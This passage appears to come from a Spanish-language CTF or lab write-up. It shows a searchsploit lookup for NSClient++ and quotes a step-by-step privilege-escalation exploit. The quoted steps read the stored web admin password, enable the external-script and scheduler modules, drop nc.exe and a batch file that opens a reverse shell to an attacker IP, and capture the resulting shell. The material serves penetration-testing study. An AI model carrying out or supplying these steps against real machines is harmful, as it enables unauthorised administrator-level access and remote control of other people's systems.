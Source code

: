 <figure><img src="https://888882784-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FiJu2WVQWC7LGLmZKHUNM%2Fuploads%2FzO3gKadMb3tHEkvEG98U%2Fimage.png?alt=media&#x26;token=987d5b77-55ea-4654-84c7-d5c1970f7442" alt=""><figcaption></figcaption></figure>

Si buscamos exploits de **NSClient++** encontraremos lo siguiente:

```bash wrap=false
❯ searchsploit NSClient++
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                       |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
NSClient++ 0.5.2.35 - Authenticated Remote Code Execution                                                                                            | json/webapps/48360.txt
NSClient++ 0.5.2.35 - Privilege Escalation                                                                                                           | windows/local/46802.txt
----------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```txt wrap=false
Prerequisites:
To successfully exploit this vulnerability, an attacker must already have local access to a system running NSClient++ with Web Server>

Exploit:
1. Grab web administrator password
- open c:\program files\nsclient++\nsclient.ini
or
- run the following that is instructed when you select forget password
        C:\Program Files\NSClient++>nscp web -- password --display
        Current password: SoSecret

2. Login and enable following modules including enable at startup and save configuration
- CheckExternalScripts
- Scheduler

3. Download nc.exe and evil.bat to c:\temp from attacking machine
        @echo off
        c:\temp\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
        nc -nlvvp 443

5. Add script foobar to call evil.bat and save settings
- Settings > External Scripts > Scripts
- Add New
        - foobar
                command = c:\temp\evil.bat

6. Add schedulede to call script every 1 minute and save settings
- Settings > Scheduler > Schedules
- Add new
        - foobar
                interval = 1m
                command = foobar

7. Restart the computer and wait for the reverse shell on attacking machine
        nc -nlvvp 443
        listening on [any] 443 ...
        connect to [192.168.0.163] from (UNKNOWN) [192.168.0.117] 49671
        Microsoft Windows [Version 10.0.17134.753]
        (c) 2018 Microsoft Corporation. All rights reserved.
         C:\Program Files\NSClient++>whoami
```